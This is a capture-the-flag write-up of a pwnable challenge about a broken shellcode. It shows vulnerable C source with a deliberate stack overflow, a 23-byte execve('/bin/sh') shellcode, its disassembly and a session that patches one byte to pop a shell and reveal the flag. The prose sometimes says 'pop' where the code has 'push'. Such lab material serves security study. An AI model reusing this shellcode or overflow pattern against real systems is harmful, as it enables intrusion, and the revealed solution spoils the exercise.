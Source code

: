 # fix

## Description

fix - 35 pt 

> Why bother to make your own shellcode? <br>
> I can simply copy&paste from shell-storm.org <br>
> so I just copied it from shell-storm then used it for my buffer overflow exercise <br>
> but it doesn't work :( <br>
> can you please help me to fix this?? <br><br>
> ssh fix@pwnable.kr -p2222 (pw:guest)

## Solution

### Exploit

This time, we are given a binary `fix` and it's source code:

```c
#include <stdio.h>

// 23byte shellcode from http://shell-storm.org/shellcode/files/shellcode-827.php
char sc[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		"\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void shellcode(){
	// a buffer we are about to exploit!
	char buf[20];

	// prepare shellcode on executable stack!
	strcpy(buf, sc);

	// overwrite return address!
	*(int*)(buf+32) = buf;

	printf("get shell\n");
}

int main(){
        printf("What the hell is wrong with my shellcode??????\n");
        printf("I just copied and pasted it from shell-storm.org :(\n");
        printf("Can you fix it for me?\n");

	unsigned int index=0;
	printf("Tell me the byte index to be fixed : ");
	scanf("%d", &index);
	fflush(stdin);

	if(index > 22)	return 0;

	int fix=0;
	printf("Tell me the value to be patched : ");
	scanf("%d", &fix);

	// patching my shellcode
	sc[index] = fix;	

	// this should work..
	shellcode();
	return 0;
}
```

The program prompts the user asking for an index in the shellcode (and checks that index is in fact in the shellcode) and a value. The program then patches the shellcode and executes it.

The shellcode is a 23 byte long one, taken from [shell-storm](http://shell-storm.org/shellcode/files/shellcode-827.php). It's a simple shellcode that executes `/bin/sh` using the `execve` syscall. Here is the disassembly:

```python
from pwn import *

context.binary = ELF('fix')

shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69' + \
		    b'\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
print(disasm(shellcode))
```

```asm
   0:   31 c0                   xor    eax, eax
   2:   50                      push   eax
   3:   68 2f 2f 73 68          push   0x68732f2f
   8:   68 2f 62 69 6e          push   0x6e69622f
   d:   89 e3                   mov    ebx, esp
   f:   50                      push   eax
  10:   53                      push   ebx
  11:   89 e1                   mov    ecx, esp
  13:   b0 0b                   mov    al, 0xb
  15:   cd 80                   int    0x80
```

When running the program (and "patching" an index with it's current value) the program crashes with a segmentation fault.

Upon further investigation, by debugging the program, it seems the segmentation fault is caused by the one of the instuctions there. The shellcode pushes several values, and after the the second `push` instruction, the stack pointer points at the *shellcode itself*. So, after the third push, the shellcode is corrupted and when the program tries to execute it, it crashes.

To fix it, we need to move the stack pointer elsewhere, so it won't point at the shellcode itself, while maintaining the integrity of the shellcode. 

If we could somehow move the stack pointer so it'll point to a place where all the bytes are zero, then - for example - the second `push %eax` instruction will be meaningless. In other words, if we change the second `pop %eax` instruction to some instruction that'll make the `%esp` point to a place where all the bytes are zero (and is writable) - we win 💪.

One way we could do this is by disabling the stack limit, and changing the `pop %eax` to a `pop %esp` (which unsurprisingly both have one byte long opcode).

Since the the top of the stack (at the moment where the `push eax` instruction is executed) is `/bin/sh`, the stack pointer will have a garbage value. Because the stack is unlimited, it will point somewhere on the stack, where all the bytes are zero.


```bash
fix@pwnable:~$ ulimit -s unlimited
fix@pwnable:~$ ./fix
What the hell is wrong with my shellcode??????
I just copied and pasted it from shell-storm.org :(
Can you fix it for me?
Tell me the byte index to be fixed : 15
Tell me the value to be patched : 92
get shell
$ cat flag
Sorry for blaming shell-strom.org :) it was my ignorance!
```